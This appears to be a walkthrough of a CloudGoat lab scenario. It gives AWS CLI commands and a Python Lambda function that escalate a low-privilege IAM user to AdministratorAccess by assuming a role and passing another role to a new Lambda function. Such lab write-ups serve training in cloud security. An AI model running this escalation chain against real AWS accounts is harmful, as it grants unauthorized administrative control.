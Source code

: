First enumerate what permissions our user has

```bash
aws sts get-caller-identity

aws configure --profile Chris

aws iam list-user-policies --user-name chris-<cloudgoat_id> --profile Chris

aws iam list-attached-user-policies --user-name chris-<cloudgoat_id> --profile Chris

aws iam get-policy-version --policy-arn <cg-chris-policy arn> --version-id v1 --profile Chris
```

Our user has permissions to view IAM resources as well as assuming roles.

```bash
aws iam list-roles --profile Chris

aws iam list-attached-role-policies --role-name cg-debug-role-<cloudgoat_id> --profile Chris

aws iam list-attached-role-policies --role-name cg-lambdaManager-role-<cloudgoat_id> --profile Chris

aws iam get-policy-version --policy-arn <cg-lambdaManager-policy arn> --version-id v1 --profile Chris
```

The role grants permissions manage Lambda functions & pass roles that they can use. Assuming the role grants us its permissions.

```bash
aws sts assume-role --role-arn <cg-lambdaManager-role arn> --role-session-name lambdaManager --profile Chris
```

Then add the lambdaManager credentials to your AWS CLI credentials file at `~/.aws/credentials` as shown below:

```
[lambdaManager]
aws_access_key_id = {{AccessKeyId}}
aws_secret_access_key = {{SecretAccessKey}}
aws_session_token = {{SessionToken}}
```

**Note**: The name of the file needs to be `lambda_function.py`.

````py
import boto3

def lambda_handler(event, context):
	client = boto3.client('iam')

	response = client.attach_user_policy(
		UserName = 'chris-<cloudgoat_id>',
		PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
	)

	return response
````

Create the function and invoke it to grant our user admin permissions.

```bash
zip -r lambda_function.py.zip lambda_function.py

aws lambda create-function --function-name admin_function --runtime python3.9 --role <cg-debug-role arn> --handler lambda_function.lambda_handler --zip-file fileb://lambda_function.py.zip --profile lambdaManager

aws lambda invoke --function-name admin_function out.txt --profile lambdaManager

aws iam list-attached-user-policies --user-name chris-<cloudgoat_id> --profile Chris
```
